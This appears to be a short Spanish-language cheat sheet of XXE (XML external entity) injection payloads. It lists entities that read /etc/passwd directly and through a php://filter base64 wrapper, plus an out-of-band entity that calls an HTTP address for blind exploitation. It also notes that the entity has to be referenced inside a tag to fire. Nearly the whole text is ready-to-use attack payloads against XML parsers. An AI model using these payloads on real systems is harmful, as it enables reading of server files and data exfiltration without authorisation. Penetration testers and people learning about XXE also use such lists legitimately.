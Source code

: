 -- -
## Payloads: 
- <!DOCTYPE foo [<!ENTITY myFile SYSTEM "file:///etc/passwd">]>
- <!DOCTYPE foo [<!ENTITY myFile SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">]>

# XXE Out Of Band interaction (OOB) 
Estas mismas son lo mismo que las anteriores solo que a ciegas:
- <!DOCTYPE foo [<!ENTITY myFile SYSTEM "http://192.168.0.229/testXXE">]>





## Aclaraciones:
- Siempre hay que "invocar" el nombre de la entidad dentro de la estructura XML para asi ejecutar el payload. (&myFile dentro de algun tag). 